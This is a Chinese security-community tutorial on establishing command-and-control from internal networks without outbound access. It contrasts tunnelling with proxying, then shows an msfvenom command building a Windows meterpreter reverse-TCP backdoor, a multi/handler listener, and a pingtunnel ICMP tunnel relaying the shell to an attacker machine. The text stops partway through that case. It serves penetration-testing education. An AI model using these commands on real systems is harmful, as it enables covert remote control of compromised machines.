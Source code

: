 

# 内网不出网上线学习研究 - 先知社区

内网不出网上线学习研究

- - -

# 引言

### 在网络安全领域，内网不出网是一个常见问题，它可能由于网络协议封杀或者内网完全无网络连接造成。本文将介绍隧道技术和代理技术，以及如何在不同情况下应用这些技术来解决问题。

#### 在解决内网不出网的时候我们首先应该要了解隧道技术和代理技术

### 隧道技术

隧道技术是一种在网络中创建私密通道以在不安全或公共网络上安全传输数据的方法。它允许将一种网络协议的数据封装在另一种网络协议的数据包中传输。

### 代理技术

-   代理是一种在网络中充当中间人的服务器或服务。它接收来自客户端的请求，并代表客户端向其他服务器或资源发出请求。代理服务器接收到请求后，可以修改请求或者在返回给客户端之前对其进行处理。

### 代理技术和隧道技术的区别

代理和隧道技术都可以用于安全性和访问控制，但它们的主要区别在于其作用和实现方式。代理更多地用于代表客户端请求资源，而隧道技术用于在网络中创建安全通道传输数据。

#### 所以我们在内网协议被封杀的时候使用隧道技术。网络通信不通的时候使用代理技术

# 案例分析：

## 1.协议被封杀

今天列举的是 tcp 协议被封杀导致无法出网

#### msf 绕过

首先生成后门

```plain
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=444 -f exe > msf.exe
```

然后 msf 启动监听，监听 333 端口

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

kali 使用 pingtunnel 工具开启隧道服务：./pingtunnel -type server

windows 开启隧道将本地 444 端口 icmp 协议数据转发到攻击机 IP 的 333 端口上
